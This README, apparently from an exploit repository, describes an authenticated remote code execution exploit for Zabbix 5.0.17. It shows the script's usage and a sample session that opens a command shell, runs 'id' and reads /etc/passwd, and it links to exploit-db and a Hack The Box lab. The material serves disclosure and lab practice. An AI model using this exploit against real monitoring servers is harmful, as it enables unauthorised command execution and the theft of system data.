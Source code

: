 # Zabbix 5.0.17 -  Remote Code Execution (Authenticated) 
Zabbix is an open-source software tool to monitor IT infrastructure such as networks, servers, virtual machines, and cloud services. Zabbix collects and displays basic metrics. 

## Exploit Infos:
Finder: Hussien Misbah <br>
Date: 09.03.2022 <br>
Affected Version: 5.0.17 <br>
Build Time: 18.10.2021 <br>
Risk: High <br>

### About exploit :
- This exploit is tested against Zabbix 5.0.17 only
- The account used is the Administrator account 

---

# Proof of Concept 
```
$ ./exploit.py
Usage: ./expoit.py <target url> <username> <password>
Example: ./exploit.py http://example.com Administrator Password123
$ ./exploit.py http://127.0.0.1 Administrator SavePassword321
[*] Get hostId: 10084
[*] Get sid: 425f48afe7a6c98f
[*] Edit item successfully
cmd> id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)

cmd> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
Debian-snmp:x:111:119::/var/lib/snmp:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false

cmd> exit
Bye

```

---

### Links:
Hussien Misbah:
* https://github.com/HussienMisbah/tools/tree/master/Zabbix_exploit
* https://www.exploit-db.com/exploits/50816
Hack The Box:
* https://app.hackthebox.com/machines/Shibboleth
* https://0xdf.gitlab.io/2022/04/02/htb-shibboleth.html
